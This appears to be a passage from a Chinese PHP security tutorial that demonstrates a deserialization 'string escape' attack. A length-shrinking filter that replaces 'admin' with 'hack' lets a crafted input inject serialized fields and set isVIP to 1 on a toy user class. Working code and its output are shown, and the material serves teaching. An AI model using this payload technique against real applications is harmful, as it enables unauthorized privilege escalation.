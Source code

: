 ```php
$a_seri_filter = filter($a_seri);

echo $a_seri_filter;
?>
```

分析一下输出结果：

```php
O:4:"user":3:{s:8:"username";s:115:"hackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhack";s:8:"password";s:47:"";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}";s:5:"isVIP";i:0;}
```

可以看到，这样就对了。

我们将对象反序列化然后输出，代码如下：

```php
<?php
class user{
    public $username;
    public $password;
    public $isVIP;

    public function __construct($u,$p){
        $this->username = $u;
        $this->password = $p;
        $this->isVIP = 0;
    }
}

function filter($s){
    return str_replace("admin","hack",$s);
}

$a = new user('adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin','";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}');
$a_seri = serialize($a);
$a_seri_filter = filter($a_seri);
$a_seri_filter_unseri = unserialize($a_seri_filter);

var_dump($a_seri_filter_unseri);
?>
```

得到结果：

```php
object(user)#2 (3) {
  ["username"]=>
  string(115) "hackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhack";s:8:"password";s:47:""
  ["password"]=>
  string(6) "123456"
  ["isVIP"]=>
  int(1)
}
```
